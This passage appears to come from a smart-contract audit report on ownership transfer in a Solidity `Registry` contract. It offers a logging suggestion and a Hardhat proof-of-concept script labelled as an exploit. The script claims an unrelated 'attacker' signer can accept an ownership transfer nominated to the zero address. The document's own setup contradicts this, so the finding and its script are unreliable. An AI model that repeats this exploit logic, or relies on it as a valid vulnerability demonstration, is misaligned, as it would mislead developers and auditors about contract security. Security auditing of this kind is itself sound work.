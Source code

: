 3. **Adding events**:

Though the contract already has events like `ProfilePendingOwnerUpdated` and `ProfileOwnerUpdated`, you might consider adding more events that capture every significant state change, such as:

```solidity
event AttemptedOwnershipChange(bytes32 indexed _profileId, address indexed _attemptedBy, address _intendedPendingOwner);
```

This event can be emitted right before the actual state change in `updateProfilePendingOwner` to notify whenever someone tries to change ownership, regardless of success.

By implementing this logic, should be able to prevent the issue.

## POC

1. Deploy the `Registry` contract.
2. Initiate a profile via the `createProfile` function.
3. Use the `updateProfilePendingOwner` function to nominate a zero address (or another address) as the pending owner.
4. Accept the ownership transfer from the nominated address using `acceptProfileOwnership`.

> Get a script to validate the intended behavior, for instance:

```javascript
const { ethers } = require("hardhat");

async function main() {
    const [deployer, user, attacker] = await ethers.getSigners();
    const ZERO_ADDRESS = "0x0000000000000000000000000000000000000000";

    // Deploy Registry contract
    const Registry = await ethers.getContractFactory("Registry");
    const registry = await Registry.deploy();
    await registry.deployed();

    // Print out the deployed addresses
    console.log("Registry deployed to:", registry.address);
    console.log("Deployer Address:", deployer.address);
    console.log("User Address:", user.address);
    console.log("Attacker Address:", attacker.address);

    // User creates a profile
    const nonce = 1;
    const name = "User's Profile";
    const metadata = {};  // Replace with appropriate metadata if needed
    const createTx = await registry.connect(user).createProfile(nonce, name, metadata, user.address, []);
    const createReceipt = await createTx.wait();
    const profileId = createReceipt.events.find(e => e.event === "ProfileCreated").args.id;

    // User sets zero address as the pending owner
    await registry.connect(user).updateProfilePendingOwner(profileId, ZERO_ADDRESS);

    // Zero address (or attacker) accepts the profile ownership
    try {
        await registry.connect(attacker).acceptProfileOwnership(profileId);  // This should fail due to the ZERO_ADDRESS validation, instead, it will succeed
        console.log("Exploit succeeded!");
    } catch (e) {
        console.log("Exploit failed:", e.message);
    }
}

main()
    .then(() => process.exit(0))
```